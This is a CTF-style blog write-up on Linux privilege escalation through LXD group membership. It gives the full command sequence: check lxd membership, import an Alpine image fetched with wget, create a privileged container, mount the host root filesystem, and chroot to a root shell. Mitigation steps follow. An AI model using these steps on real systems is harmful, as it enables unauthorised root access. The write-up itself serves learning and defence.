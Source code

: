 ```yaml
---
layout: post
title: "LXD or PWNBOX"
date: 2025-03-16 00:00:00 +0100
categories: [thm, hacking, linux]
tags: [ctf, sudo, privilege escalation, lxd, bash, pwnbox]
---
```


![pwn](pics/pwnbox.png)

### Intro

LXD PwnBox is a privilege escalation technique that exploits the LXD container management system on Linux.
If a user has been added to the lxd group, they can create and run privileged containers, effectively gaining root access on the host.
By mounting the host filesystem inside a container, an attacker can read or modify critical system files.
This method is commonly used in CTFs and penetration tests when LXD is misconfigured. 🚀

### Enumeration

Here we will talk about situation when you are already inside of the machine
- Lets Check `id` in terminal:

```bash
id

# result (pay attention you are in lxd group!):
uid=1000(kingkong) gid=1000(kingkong) groups=1000(kingkong),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```

- If you see your user in lxd
### Weaponization/Privilege Escalation

- Prepare a home for the future container:

```bash
mkdir /tmp/lxd && cd /tmp/lxd
```

- Download Alpine LXD tar file to it's new home from [github](https://github.com/saghul/lxd-alpine-builder/blob/master/alpine-v3.13-x86_64-20210218_0139.tar.gz)
or use cli:
```bash
wget https://github.com/saghul/lxd-alpine-builder/raw/refs/heads/master/alpine-v3.13-x86_64-20210218_0139.tar.gz -O alpine-v3.18-x86_64.tar.gz
```

- Once the tar file is ready, import it into LXD:

```bash
lxc image import alpine-v3.18-x86_64.tar.gz --alias myimage
```
- Verify the image has been added:

```bash
lxc image list
```

- Create a new privileged LXD container with the imported Alpine image:

```bash
lxc init myimage pwnbox -c security.privileged=true
```

- !NBIf you get `Error: No storage pool found. Please create a new storage pool` just create a storage pool like this (if no error faced just skip this step)

```bash
lxc init myimage pwnbox -s mypool -c security.privileged=true
```

- Give the container full access to the host’s file system:

```bash
lxc config device add pwnbox mydevice disk source=/ path=/mnt/root recursive=true
```

- Start the container:

```bash
lxc start pwnbox
```

- Confirm it's running:

```bash
lxc list
```

- Now, enter the container:

```bash
lxc exec pwnbox /bin/sh
```

- Since the container is privileged and has access to the host’s filesystem, navigate to /mnt/root to access the main system:

```bash
cd /mnt/root
ls -la
```

- Now became root:

```bash
chroot /mnt/root /bin/bash
```

You're root! 🎉

### Cleanup (If Needed)

- To remove the container after exploitation:

```bash
lxc delete pwnbox --force
lxc image delete myimage
```

### Mitigation

- Remove users from the lxd group:

```
sudo gpasswd -d kingkong lxd
```

- Restrict LXD container permissions:

```bash
lxc config set core.https_address ""
```

- Use AppArmor or SELinux to sandbox LXD properly.